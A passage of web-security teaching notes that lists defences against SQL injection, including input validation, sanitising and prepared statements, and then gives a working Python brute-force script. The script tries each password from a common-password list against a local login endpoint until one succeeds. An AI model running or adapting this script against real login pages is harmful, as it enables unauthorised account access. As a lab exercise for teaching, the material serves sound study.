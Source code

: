 * Always validate input
    * Make sure on the frontend that you're getting the data that you want
* Always sanitize input
    * Ensure that the backend also sanitizes input as the frontend can also be turned off by tech savvy users
    * also treat input as flat strings
    * escape any special characters
* Use an ORM where possible
* If you're enterring raw sql, use prepared statements
```sql
select * from users where username = ?;
```
where the actual username is filled in later

## Brute Force

This attack is continuously trying a username and password until we eventually succeed. Below is all the code that is necessary for this type of attack. All we would need is a for loop and a dictionary of strings and we'll be able to guess everything.

```py
# Notice that we need to use the str function rstrip to strip any newline characters
import requests
def try_password(password, print_all=False):
    # specify where to make the request
    url = 'http://127.0.0.1:5000/login'
    
    # define the payload for the post request
    payload = {'password': password}
    
    # make the request
    r = requests.post(url, json=payload)
    
    # print some results (http status code)
    if(print_all):
        print(payload['password'] + ":" + str(r.status_code))
    
    # determine if we've gained access 200 = success!
    if(r.status_code == 200):
        print("the password is: " + payload['password'])
        return True
    else:
        return False

with open('nist_10000.txt', newline='\n') as bad_passwords:
    for password in bad_passwords:
        if try_password(str. rstrip(password), True):
            print(f'success on pass: {password}')
            break;
```

The following is the server that this attack is initially run against
